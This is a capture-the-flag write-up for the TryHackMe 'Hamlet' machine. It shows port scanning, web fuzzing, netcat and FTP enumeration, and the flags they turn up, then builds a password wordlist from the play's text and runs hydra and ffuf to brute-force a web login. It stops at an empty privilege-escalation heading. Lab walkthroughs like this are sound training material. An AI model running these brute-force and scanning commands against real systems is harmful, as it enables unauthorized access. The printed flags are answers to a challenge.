






## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh, port `80` with http server, port `501` with nagios nsca, port `8000` with apache http server and port `8080` with apache tomcat.
```bash
PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                                                                                             
21/tcp   open  ftp         syn-ack ttl 62 vsftpd 3.0.3                                                                                                                                                                                                                        
| ftp-syst:                                                                                                                                                                                                                                                                   
|   STAT:                                                                                                                                                                                                                                                                     
| FTP server status:                                                                                                                                                                         
|      Connected to ::ffff:192.168.138.59                                                                                                                                                    
|      Logged in as ftp                                                                                                                                                                      
|      TYPE: ASCII                                                                                                                                                                           
|      No session bandwidth limit                                                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                                                     
|      Control connection is plain text                                                                                                                                                      
|      Data connections will be plain text                                                                                                                                                   
|      At session startup, client count was 1                                                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                                                   
|_End of status                                                                                                                                                                                                   
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                                            
| -rwxr-xr-x    1 0        0             113 Sep 15  2021 password-policy.md                                                                                                                 
|_-rw-r--r--    1 0        0            1425 Sep 15  2021 ufw.status                                                                                                                                                                        
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                       
| ssh-hostkey:                                                                                                                                                                                                    
|   2048 a0:ef:4c:32:28:a6:4c:7f:60:d6:a6:63:32:ac:ab:27 (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5/i3O28uWolhittypXr6mAEk+XOV998o/e/3wIWpGq9J1GhtGc3J4uwYpBt7SiS3mZivq9D5jgFhqhHb6zlBsQmGUnXUnQNYyqrBmGnyl4urp5IuV1sRCdNXQdt/lf6Z9A807OPuCkzkAexFUV28eXqdXpRsXXkqgkl5DCm2WEtV7yxPIbGlcmX+arDT9A5kGTZe9rNDdqzSafz0aVKRWoTHGHuqVmq0oPD3C
c3oYfoLu7GTJV+Cy6Hxs3s6oUVcruoi1JYvbxC9whexOr+NSZT9mGxDSDLS6jEMim2DQ+hNhiT49JXcMXhQ2nOYqBXLZF0OYyNKaGdgG35CIT40z                                                                             
|   256 5a:6d:1a:39:97:00:be:c7:10:6e:36:5c:7f:ca:dc:b2 (ECDSA)                               
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHtt/3Q8agNKO48Zw3srosCs+bfCx47O+i4tBUX7VGMSpzTJQS3s4DBhGvrvO+d/u9B4e9ZBgWSqo+aDqGsTZxQ=                                                                                                            
|   256 0b:77:40:b2:cc:30:8d:8e:45:51:fa:12:7c:e2:95:c7 (ED25519)       
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN4jv01JeDGsDfhWIJMF8HBv26FI18VLpBeNoiSGbKVp                                                                                                                                
80/tcp   open  http        syn-ack ttl 62 lighttpd 1.4.45                                                                                                    
|_http-server-header: lighttpd/1.4.45                                         
| http-methods:                                                                                                                                                                              
|_  Supported Methods: OPTIONS GET HEAD POST                            
|_http-title: Hamlet Annotation Project                                       
501/tcp  open  nagios-nsca syn-ack ttl 62 Nagios NSCA                         
8000/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.48 ((Debian))                                                                                                                                                                                                      
|_http-server-header: Apache/2.4.48 (Debian)                            
|_http-open-proxy: Proxy might be redirecting requests                                        
| http-methods:                                                               
|_  Supported Methods: GET POST OPTIONS HEAD                                  
|_http-title: Site doesn't have a title (text/html).                    
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat (language: en)  
|_http-favicon: Spring Java Framework                         
| http-title: WebAnno - Log in                                          
|_Requested resource was http://hamlet.thm:8080/login.html              
|_http-open-proxy: Proxy might be redirecting requests                                        
|_http-trane-info: Problem with XML parsing of /evox/about              
| http-methods:                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                        
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `hamlet.thm` to my `/etc/hosts`.

### Find first flag on robots.txt

I started with fuzzing:
```bash
┌──(agonen㉿kali)-[~/thm/Hamlet]
└─$ ffuf -u 'http://hamlet.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hamlet.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

index.html              [Status: 200, Size: 1011, Words: 244, Lines: 39, Duration: 167ms]
robots.txt              [Status: 200, Size: 64, Words: 3, Lines: 4, Duration: 165ms]
```

we can see the file `robots.txt`, it gives us the first flag:
```bash
┌──(agonen㉿kali)-[~/thm/Hamlet]
└─$ curl http://hamlet.thm/robots.txt                                                                                                                
User-agent: *
Allow: /

THM{1_most_mechanical_and_dirty_hand}
```

### Find second flag on port 501

Then, I moved to port `501` and tried to check what there is behind this port:
```bash
┌──(agonen㉿kali)-[~/thm/Hamlet]
└─$ nc hamlet.thm 501
GRAVEDIGGER
What do you call a person who builds stronger things than a stonemason, a shipbuilder, or a carpenter does?
PENTESTER
```

Since I don't know the answer for this question, I tried googling it:



I tried the first answer `gallows-maker`, and got back the flag:
```bash
┌──(agonen㉿kali)-[~/thm/Hamlet]
└─$ nc hamlet.thm 501
GRAVEDIGGER
What do you call a person who builds stronger things than a stonemason, a shipbuilder, or a carpenter does?
PENTESTER
gallows-maker
THM{2_ophelia_s_grave}
```



### Brute force Michael's password

Next, we can login anonymously to the ftp service, and grab several files:
```bash
ftp anonymous@hamlet.thm
```



The file `ufw.status` holds the firewall status, and the file `password-policy.md` has the passwords policy:
```bash
┌──(agonen㉿kali)-[~/thm/Hamlet]               
└─$ cat password-policy.md                                                                    
# Password Policy                              

## WebAnno                                     

New passwords should be:                       

- lowercase                                    
- between 12 and 14 characters long
```

Now, let's visit the main page:
We can see there is some user who is called `ghost`, who is obsessed with the vocabulary from Shakespeare words.



In addition, at `/hamlet.txt` we can find the version of the play they are using.

When I went to port `8080`, I saw login portal. 



Let's try to create possible passwords according to the passwords policy, and brute force the login for user `ghost`

First, I downloaded the hamlet.txt, and then created the wordlist:
```bash
┌──(agonen㉿kali)-[~/thm/Hamlet]
└─$ curl http://hamlet.thm/hamlet.txt -s -O
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Hamlet]
└─$ grep -oE '[a-z]{12,14}' hamlet.txt > passwords.txt
```

Now, we can try brute forcing with `hydra` or with `ffuf`:
* hydra:
```bash
hydra -l ghost -P passwords.txt hamlet.thm http-post-form "/login.html?-1.-loginForm:username=^USER^&password=^PASS^:F=Login failed" -s 8080 -I
```
* ffuf:

```bash
ffuf -u 'http://hamlet.thm:8080/login.html?-1.-loginForm' -X POST -d 'username=Michael&password=FUZZ' -w passwords.txt
```

### Privilege Escalation to Root


